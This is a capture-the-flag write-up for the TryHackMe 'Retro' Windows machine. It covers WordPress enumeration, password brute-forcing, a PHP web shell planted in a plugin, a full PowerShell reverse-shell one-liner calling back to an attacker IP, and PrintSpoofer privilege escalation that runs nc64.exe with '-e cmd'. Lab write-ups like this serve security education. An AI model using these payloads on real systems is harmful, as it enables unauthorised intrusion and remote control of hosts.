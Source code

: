 # **Retro | THM**

***

## **Difficulty = Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/3c846113-3edb-480a-a52c-06b6d171cfc6)

***

Running our nmap scan we have 2 open ports


```bash
# Nmap 7.94SVN scan initiated Mon Mar 11 06:41:24 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.97.2
Nmap scan report for 10.10.97.2
Host is up (0.15s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-03-11T05:43:47+00:00
|_ssl-date: 2024-03-11T05:43:51+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-10T05:18:49
| Not valid after:  2024-09-09T05:18:49
| MD5:   8d7a:1577:c616:ae1a:6364:e666:f0ba:53d0
|_SHA-1: d697:44ba:89ed:4056:f469:9352:05df:7214:d874:ea37
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 11 06:43:52 2024 -- 1 IP address (1 host up) scanned in 147.74 seconds
```



Navigating to port 80 we have a default windows IIS page 


![](https://i.imgur.com/ZrcU03H.png)


Since we don't have much to enumerate rather than port 80/HTTP, i decided to fuzz for directories and found `/retro`

![](https://i.imgur.com/qZBHJMR.png)



Navigating to `/retro` we found a wordpress website


![](https://i.imgur.com/kLcNXUl.png)

Enumerating this site using `wpscan` there was nothing more interesting than finding a username called **wade**

```bash
❯ wpscan --url http://10.10.97.2/retro/ -e u
```

![](https://i.imgur.com/DLJ3qAN.png)


Since we have a username let bruteforce the login page, we first need to use the `cewl` tool to generate a password wordlist from the site it self so we can use it against the username we got

```bash
❯ cewl -m 5 http://10.10.97.2/retro/ > pass.txt
```

![](https://i.imgur.com/rcu97nj.png)


Then we can bruteforce, as shown below we found a valid credentials for the user `wade`


```bash
❯ wpscan --url http://10.10.97.2/retro/ -U wade -P ./pass.txt --password-attack wp-login
```



![](https://i.imgur.com/WLBIFjJ.png)


```
wade:parzival
```


We can then login via wordpress with the username and password we have gotten

![](https://i.imgur.com/aShbHqz.png)


Now to get a **reverse shell**, navigate to **Plugins --> Plugins Editor**



![](https://i.imgur.com/FOI3vVu.png)

Then overwrite the `absolute-relative-urls.php` file and paste in your own PHP reverse shell as this is the file that will be called when we want to get the reverse shell, then scroll down and click on **Update** to complete this step


![](https://i.imgur.com/EFxEgsc.png)



Now go ahead and start up your listener and navigate to . This should trigger your reverse shell, Note that as shown below i used `rlwrap` for automatic windows shell stabilization


![](https://i.imgur.com/PzgjvSn.png)
![](https://i.imgur.com/XQrqnX6.png)



However as seen above, looks like our shell is been terminated, well this is probably cos' we are using a PHP cmd for the windows host which isn't that stable, we can therefore upload a webshell and use powershell to get a reverse shell, save the below code in the `.php` plugin and navigate to the website again


```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


However i noticed that the plugin changes, so make sure to confirm the URL path also :P

![](https://i.imgur.com/PWLyX12.png)


Then get a reverse shell using the following powershell command, make sure to change the IP and port to yours irrespectively

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.11.69.221', 4444);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```


![](https://i.imgur.com/Du9Rrds.png)


Running `whoami /priv` we can see we have the **SeImpersonatePrivilege** enabled, this role determines which programs are allowed to impersonate a user or other specified account and perform actions on behalf of the user. we can go ahead and use this privilege to get a shell as administrator

![](https://i.imgur.com/ih3wy3s.png)


Transfer [nc64.exe](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [PrintSpoofer32.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe) to target machine and run the below command also make sure to start your listener before doing this


```bash
# start listener
sudo nc -lvnp 443

# start exploit
.\PrintSpoofer32.exe -c "c:\windows\temp\nc64.exe 10.11.69.221 443 -e cmd"
```



![](https://i.imgur.com/A24bHmY.png)



GG 😄


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

